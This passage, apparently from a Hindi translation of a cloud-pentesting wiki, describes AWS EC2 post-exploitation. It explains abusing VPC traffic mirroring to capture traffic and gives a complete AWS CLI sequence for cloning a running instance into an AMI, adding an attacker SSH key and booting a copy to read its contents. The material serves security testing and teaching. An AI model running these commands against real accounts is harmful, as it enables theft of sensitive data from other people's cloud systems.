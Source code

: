 {% content-ref url="../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### **दुश्मन VPC मिरर -** `ec2:DescribeInstances`, `ec2:RunInstances`, `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress`, `ec2:CreateTrafficMirrorTarget`, `ec2:CreateTrafficMirrorSession`, `ec2:CreateTrafficMirrorFilter`, `ec2:CreateTrafficMirrorFilterRule`

VPC ट्रैफिक मिररिंग **VPC के भीतर EC2 इंस्टेंस के लिए इनबाउंड और आउटबाउंड ट्रैफिक को डुप्लिकेट करती है** बिना इंस्टेंस पर कुछ भी इंस्टॉल किए। यह डुप्लिकेट ट्रैफिक आमतौर पर विश्लेषण और निगरानी के लिए नेटवर्क इंट्रूज़न डिटेक्शन सिस्टम (IDS) जैसी किसी चीज़ पर भेजा जाएगा।\
एक हमलावर इसका दुरुपयोग करके सभी ट्रैफिक को कैप्चर कर सकता है और इससे संवेदनशील जानकारी प्राप्त कर सकता है:

अधिक जानकारी के लिए इस पृष्ठ को देखें:

{% content-ref url="aws-malicious-vpc-mirror.md" %}
[aws-malicious-vpc-mirror.md](aws-malicious-vpc-mirror.md)
{% endcontent-ref %}

### चल रहे इंस्टेंस की कॉपी

इंस्टेंस आमतौर पर कुछ प्रकार की संवेदनशील जानकारी रखते हैं। अंदर जाने के विभिन्न तरीके हैं (देखें [EC2 विशेषाधिकार वृद्धि ट्रिक्स](../../aws-privilege-escalation/aws-ec2-privesc.md))। हालाँकि, यह जांचने का एक और तरीका है कि इसमें क्या है, वह है **एक AMI बनाना और इससे एक नया इंस्टेंस चलाना (यहाँ तक कि अपने स्वयं के खाते में)**:
```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```
### EBS Snapshot dump
